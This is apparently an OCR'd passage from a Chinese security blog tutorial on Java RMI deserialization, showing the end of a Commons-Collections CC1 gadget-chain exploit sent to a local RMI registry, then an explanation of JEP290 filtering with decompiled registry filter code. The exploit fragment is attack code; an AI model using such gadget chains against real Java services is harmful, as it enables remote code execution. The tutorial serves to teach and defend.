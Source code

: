```
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        // ================addUser(Object obj) Object在服务端会被反序列化所以会触发对应的CC1攻击链
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User) registry.lookup("user");
        user.addUser(invocationHandler);
    }
}

```

攻击效果如下


![image-20241125200917895](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134826_rmi14.png)


## JEP290介绍


`JEP290`机制是用来过滤传入的序列化数据，以提高安全性，在反序列化的过程中，新增了一个`filterCheck`方法，所以，任何反序列化操作都会经过这个`filterCheck`方法，利用`checkInput`方法来对序列化数据进行检测，如果有任何不合格的检测，`Filter`将返回`REJECTED`。但是`jep290`的`filter`需要手动设置，通过`setObjectInputFilter`来设置`filter`，如果没有设置，还是不会有白名单。



```
private static Status registryFilter(FilterInfo var0) {
    if (registryFilter != null) {
        Status var1 = registryFilter.checkInput(var0);
        if (var1 != Status.UNDECIDED) {
            return var1;
        }
    }

    if (var0.depth() > (long)REGISTRY_MAX_DEPTH) {
        return Status.REJECTED;
    } else {
        Class var2 = var0.serialClass();
        if (var2 == null) {
            return Status.UNDECIDED;
        } else {
            if (var2.isArray()) {
                if (var0.arrayLength() >= 0L && var0.arrayLength() > (long)REGISTRY_MAX_ARRAY_SIZE) {
                    return Status.REJECTED;
                }

                do {
                    var2 = var2.getComponentType();
                } while(var2.isArray());
            }

            if (var2.isPrimitive()) {
                return Status.ALLOWED;
            } else {
                return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
            }
```